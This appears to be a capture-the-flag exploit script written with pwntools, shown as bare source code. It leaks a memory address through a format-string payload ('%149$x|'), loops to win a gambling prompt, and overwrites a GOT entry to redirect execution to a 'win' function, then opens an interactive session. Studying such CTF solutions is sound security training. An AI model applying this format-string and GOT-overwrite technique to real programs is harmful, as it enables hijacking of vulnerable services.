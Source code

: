 ```

payload = b'%149$x|'
p.readuntil('handle?')
p.sendlineafter('> ', payload)

# brute force the gamble
nline=''
while(True):
	p.clean()
	p.sendlineafter('What will you do? ', 'g')
	p.sendline('0.0000001')
	p.sendlineafter('> ', '5')
	f = p.readline().decode()
	if ('OPTIONS' in f):
		continue
	nline = p.readline().decode()
	if ('Well done' in nline):
		# next line contains leakage
		break
	p.readuntil('any key')
	p.sendlineafter('continue...', '\n')

r = nline.split('|')
got = int('0x' + r[0].split(' ')[-1], 16)
win = got - 10852
got = got + 0x10

p.clean()
p.sendline('\n')

p.clean()
# dummy input
p.sendline('c')

p.clean()
p.sendline('c')
p.sendline(writeAddress(5, got, win))

# exploit
nline=''
while(True):
	p.sendlineafter('What will you do? ', 'g')
	p.sendlineafter(': ', '0.0000001')
	p.sendlineafter('> ', '5')
	f = p.readline()
	if (not p.can_read()):
		break
	nline = p.readline()
	if (b'Well done' in nline):
		break
	p.clean()
	p.sendline('\n')

p.interactive()
```

---
